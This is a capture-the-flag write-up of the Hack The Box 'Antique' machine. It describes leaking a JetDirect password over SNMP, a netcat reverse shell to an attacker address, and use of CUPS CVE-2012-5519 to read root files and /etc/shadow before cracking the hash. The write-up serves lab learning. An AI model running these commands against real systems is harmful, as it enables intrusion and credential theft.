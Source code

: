 ```yaml
---
date: 2025-04-11
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Antique"
tags: ['printer', 'pjl', 'pret']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Antique


![image1](../resources/4ab4a45e16964c82b4a94cfe78f5a6f1.png)

![image2](../resources/b9c665893d0d4a9bb06cf3fb233ccfeb.png)

- I couldn't do anything on the telnet connection apart from grab the banner, because I don't know the password

- I came across this site:

`http://www.irongeek.com/i.php?page=security/networkprinterhacking`

- It says that JetAdmin uses SNMP and so I did a UDP scan for SNMP:

![image3](../resources/30fd5ec29f324520bdaea25360df9a44.png)

- And it is using SNMPv1 (according to NMAP)

- But if we use snmpwalk - **we see that v2 is being** used:

```bash
snmpwalk -v 1 -c public 10.129.62.107

```

![image4](../resources/a4d6824c97bd4b9087773c4f6234bb63.png)

```bash
snmpwalk -v 2c -c public 10.129.62.107

```

![image5](../resources/647155bc03b94d36bb4e58d07e2e88f8.png)

**<u>Leak the password</u>**
- According to this article, some JetDirect printers will leak the password (in Hex) if you send a SNMP GET request to a vulnerable printer:
<https://www.exploit-db.com/exploits/22319>

- Using snmpwalk we can add a **.1** to the end to **query ALL**:

```bash
snmpwalk -v 2c -c public 10.129.62.107 .1

```

![image6](../resources/c122c67f32b6493f9f263480d109caeb.png)

- We get the hex back, and can decode it with CyberChef:

![image7](../resources/27a375a3b7b2464dad66418b8e9641af.png)

- We get the password:
**P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy**

- And we are connected (no username - just the password):

![image8](../resources/4751b1eb659941c48b51cff2d3a6ac6d.png)

If the commands doesn't work - close the session and start a new session

- We can use the exec command to execute system commands:

![image9](../resources/13b7c88d840c4def86f0109797990c07.png)

- Set up a listener
- Execute a reverse shell:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f

```

![image10](../resources/5b6a9bea2aa8404592bba8dc7852282a.png)


![image11](../resources/a4e9fbecb932482f85d13a46a4e02cf4.png)

- Looking at open ports - we find 631 (Internet Printing Protocol (IPP)) is open:

![image12](../resources/bd07877c03134169bdb907a8383f3c06.png)

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp>

- We can curl to find out more:

```bash
curl http://127.0.0.1:631

```

![image13](../resources/41ecee78d86049a6874e88c32ed27860.png)

- Cups version:

![image14](../resources/24a06f42a552400185eb3e0d405a5d26.png)

- Looking online, we find an exploit for this version CVE-2012–5519:


![image15](../resources/3b9f012adaed4dc89c73740a3768674a.png)

- There is a metasploit module for it:
<https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read>

- But we don't need to use it. We can extract the info from it and just use that:

Read file as root:

- First we need to set the env variable for **ErrorLog** to the file we want to read:

```bash
cupsctl ErrorLog=/root/root.txt

```

![image16](../resources/cfbfb4288bf148afb68839042f40cddc.png)

- Then we need to send a GET request to **/admin/log/error_log?** :

![image17](../resources/f9741cbc1bad4474b430b7304a10a81d.png)

- We can go further and read /etc/shadow and get the root hash:

![image18](../resources/93b1d83fd93443a5b58a3126e80cbe50.png)

- Find the encryption method with:

```bash
grep ENCRYPT_METHOD /etc/login.defs

```

![image19](../resources/480fd9b6907a4ba88990102cae3e5eb3.png)

- I don't know if hashcat will find it but it was taking ages:

```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```